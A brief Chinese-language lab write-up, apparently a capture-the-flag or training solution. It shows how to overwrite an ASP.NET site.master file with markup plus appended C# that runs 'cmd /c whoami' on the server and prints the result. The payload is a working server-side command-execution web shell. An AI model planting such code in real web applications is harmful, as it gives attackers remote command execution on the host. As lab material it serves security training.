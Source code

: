 从官方答案中看到的方法，不改 site.master.cs 文件，而是改 site.master。

创建一个新的 site.master 文件开始。将包含原始文件中的现有内容并附加任意 C# 代码，该代码输出正在运行 Web 应用程序的用户的名称：

```c#
&lt;%@ Language=&#34;C#&#34; src=&#34;site.master.cs&#34; Inherits=&#34;MyNamespaceMaster.MyClassMaster&#34; %&gt;
&lt;!DOCTYPE html PUBLIC &#34;-//W3C//DTD XHTML 1.0 Strict//EN&#34; &#34;http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd&#34;&gt;
&lt;html xmlns=&#34;http://www.w3.org/1999/xhtml&#34; lang=&#34;en&#34;&gt;
	&lt;head runat=&#34;server&#34;&gt;
		&lt;title&gt;Butch&lt;/title&gt;
		&lt;meta http-equiv=&#34;Content-Type&#34; content=&#34;text/html; charset=utf-8&#34; /&gt;
		&lt;meta name=&#34;application-name&#34; content=&#34;Butch&#34;&gt;
		&lt;meta name=&#34;author&#34; content=&#34;Butch&#34;&gt;
		&lt;meta name=&#34;description&#34; content=&#34;Butch&#34;&gt;
		&lt;meta name=&#34;keywords&#34; content=&#34;Butch&#34;&gt;
		&lt;link media=&#34;all&#34; href=&#34;style.css&#34; rel=&#34;stylesheet&#34; type=&#34;text/css&#34; /&gt;
		&lt;link id=&#34;favicon&#34; rel=&#34;shortcut icon&#34; type=&#34;image/png&#34; href=&#34;favicon.png&#34; /&gt;
	&lt;/head&gt;
	&lt;body&gt;
		&lt;div id=&#34;wrap&#34;&gt;
			&lt;div id=&#34;header&#34;&gt;Welcome to Butch Repository&lt;/div&gt;
			&lt;div id=&#34;main&#34;&gt;
				&lt;div id=&#34;content&#34;&gt;
					&lt;br /&gt;
					&lt;asp:contentplaceholder id=&#34;ContentPlaceHolder1&#34; runat=&#34;server&#34;&gt;&lt;/asp:contentplaceholder&gt;
					&lt;br /&gt;
				&lt;/div&gt;
			&lt;/div&gt;
		&lt;/div&gt;
	&lt;/body&gt;
&lt;/html&gt;
&lt;%
string stdout = &#34;&#34;;
string cmd = &#34;whoami&#34;;
System.Diagnostics.ProcessStartInfo procStartInfo = new System.Diagnostics.ProcessStartInfo(&#34;cmd&#34;, &#34;/c &#34; &#43; cmd);
procStartInfo.RedirectStandardOutput = true;
procStartInfo.UseShellExecute = false;
procStartInfo.CreateNoWindow = true;
System.Diagnostics.Process p = new System.Diagnostics.Process();
p.StartInfo = procStartInfo;
p.Start();
stdout = p.StandardOutput.ReadToEnd();
Response.Write(stdout);
%&gt;
```

这么做的好处在于不会让环境崩溃，无需重置环境。
